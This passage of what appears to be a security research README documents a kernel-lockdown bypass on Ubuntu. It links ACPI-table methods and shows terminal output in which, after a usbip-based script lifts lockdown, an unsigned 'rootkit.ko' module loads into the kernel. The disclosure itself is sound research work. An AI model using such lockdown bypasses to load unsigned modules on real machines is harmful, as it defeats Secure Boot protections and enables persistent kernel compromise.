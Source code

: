 ### Method 3: ACPI Tables

See [American Unsigned Language](https://git.zx2c4.com/american-unsigned-language/tree/american-unsigned-language.sh) and [American Unsigned Language 2](https://git.zx2c4.com/american-unsigned-language/tree/american-unsigned-language-2.sh).

### Method 4: TBD

TBD.

## So what?

What happens now that lockdown has been disabled?

At the very least I can now use `kprobe` on my laptop.
(No need to waste time remembering that [tricky key combination sequence](https://superuser.com/questions/562348/altsysrq-on-a-laptop) every time.)

```
perf-tools/bin# ./kprobe 'r:usb usb_control_msg rv=$retval'
Tracing kprobe usb. Ctrl-C to end.
     kworker/3:2-984   [003] d...   334.012577: usb: (hub_ext_port_status+0x8b/0x130 <- usb_control_msg) rv=0x4
     kworker/3:2-984   [003] d...   334.012590: usb: (usb_clear_port_feature+0x35/0x40 <- usb_control_msg) rv=0x0
     kworker/3:2-984   [003] d...   334.012595: usb: (hub_ext_port_status+0x8b/0x130 <- usb_control_msg) rv=0x4
```

And of course it's now also possible to do other fun stuff like loading unsigned kernel modules.

```
# uname -a
Linux x1 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

# cd rootkit
# make
...

# insmod rootkit.ko
insmod: ERROR: could not insert module rootkit.ko: Required key not available

# cd ../01-usbip
# ./run.sh
...
Done! Check dmesg.
# dmesg | grep 'Lifting lockdown'
[  146.480046] Lifting lockdown

# cd ../rootkit
# insmod rootkit.ko
# dmesg | grep rootkit
[  175.953572] rootkit: loading out-of-tree module taints kernel.
[  175.953574] rootkit: module license 'unspecified' taints kernel.
[  175.953621] rootkit: module verification failed: signature and/or required key missing - tainting kernel
[  175.953975] rootkit successfully loaded
```

## No license

The code in this repository comes with no attached license: parts of it are taken from random places all over the Internet and have unknown or conflicting licenses. Do not use this code if you care about legal consequences.
